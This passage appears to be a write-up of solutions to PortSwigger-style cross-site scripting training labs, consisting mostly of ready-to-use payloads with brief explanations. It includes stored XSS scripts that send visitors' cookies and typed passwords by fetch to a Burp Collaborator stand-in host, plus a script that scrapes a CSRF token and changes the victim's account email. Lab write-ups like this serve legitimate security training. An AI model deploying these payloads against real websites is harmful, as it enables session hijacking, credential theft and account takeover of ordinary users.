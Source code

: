 This is your payload: `http://foo?&apos;-alert(1)-&apos;`

---
### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped


This is your payload: `${alert(1)}`

---
### Exploiting cross-site scripting to steal cookies

This is the payload for the comment: 
`<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>`

This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.

---
### Exploiting cross-site scripting to capture passwords

This is the same payload as the previous one, but here we're sending the username and password instead of a cookie:

`<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">`

---
### Exploit XSS to perform CSRF

To change the email, you need to bypass the CSRF protection, so, by posting this comment, you can get anyone accessing this post, his email change:

`<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>`

